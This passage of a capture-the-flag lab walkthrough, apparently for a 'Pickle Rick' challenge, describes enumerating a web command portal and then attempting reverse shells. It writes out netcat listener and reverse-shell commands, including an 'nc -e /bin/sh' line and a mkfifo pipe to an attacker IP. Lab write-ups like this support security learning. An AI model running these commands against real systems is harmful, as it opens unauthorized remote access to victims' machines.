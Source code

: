 Which returns _Command disabled to make it hard for future PICKLEEEE RICCCKKKK._ (¬.¬) ....

Fortunately the command input is only _temporarily_ disabled. And after a little fiddling around find that it's the `cat` command that's disabled. Though, interestingly the error message's source does contain some type of hashed data?

```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

The `whoami` command let me know that we're running as `www-data`.

The `ls /home` command shows there are two users with directories there: `rick`, `ubuntu`.

#### Trying to get a reverse netcat shell

I'd tried to figure out what the hell the above hash was, but to no avail, so lets see if we can get a reverse shell on the machine and get a more interactive interface to toy around with.

We'll need to listen for connections on our attacker machine.

```
# On the attacker machine
nc -lvp 4444
```

```
# On the victim machine, run netcat, and on connect, create a shell
nc 10.11.8.219 4444 -e /bin/sh
```

The connection failed, which could be down to the _version_ of netcat. So I ran `man netcat` via the portal input. Which returned a hint on how to bypass this:

```
There is no -c or -e option in this netcat, but you still can execute a
     command after connection being established by redirecting file descrip-
     tors. Be cautious here because opening a port and let anyone connected
     execute arbitrary command on your site is DANGEROUS. If you really need
     to do this, here is an example:

     On 'server' side:

           $ rm -f /tmp/f; mkfifo /tmp/f
           $ cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.8.219 4444 > /tmp/f
```

We can't use the `cat` command for a return; but, it _may_ still execute on the victim box, so lets test it at least.

```
# Run first, to create the mkfifo
rm -f /tmp/f; mkfifo /tmp/f;
# Run second, for reverse shell
cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.8.219 4444 > /tmp/f;
```

Unfortunately we failed once again. I'm wondering at this point whether to:
